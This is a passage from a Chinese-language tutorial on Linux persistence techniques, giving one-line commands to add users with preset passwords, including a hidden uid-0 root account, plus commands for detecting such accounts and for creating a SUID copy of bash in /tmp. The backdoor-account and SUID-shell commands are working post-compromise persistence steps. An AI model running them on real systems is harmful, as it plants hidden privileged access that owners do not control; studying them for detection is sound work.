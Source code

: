 本文将对Linux下常见的权限维持技术进行解析，知己知彼百战不殆。



# 1、一句话添加用户和密码

添加普通用户：

```plain
# 创建一个用户名guest，密码123456的普通用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest

# useradd -p 方法  ` ` 是用来存放可执行的系统命令,"$()"也可以存放命令执行语句
useradd -p "$(openssl passwd -1 123456)" guest
	
# chpasswd方法
useradd guest;echo 'guest:123456'|chpasswd
	
# echo -e方法
useradd test;echo -e "123456\n123456\n" |passwd test
```



添加root用户：

```plain
# 创建一个用户名guest，密码123456的root用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/test
```



可疑用户排查技巧：

```plain
# 查询特权用户特权用户(uid 为0)
[root@localhost ~]# awk -F: '$3==0{print $1}' /etc/passwd
# 查询可以远程登录的帐号信息
[root@localhost ~]# awk '/\$1|\$6/{print $1}' /etc/shadow
# 除root帐号外，其他帐号是否存在sudo权限。如非管理需要，普通帐号应删除sudo权限
[root@localhost ~]# more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"
```



# 2、SUID Shell

Suid shell是一种可用于以拥有者权限运行的shell。

```plain
配合普通用户权限使用
cp /bin/bash /tmp/shell
chmod u+s /tmp/shell
```

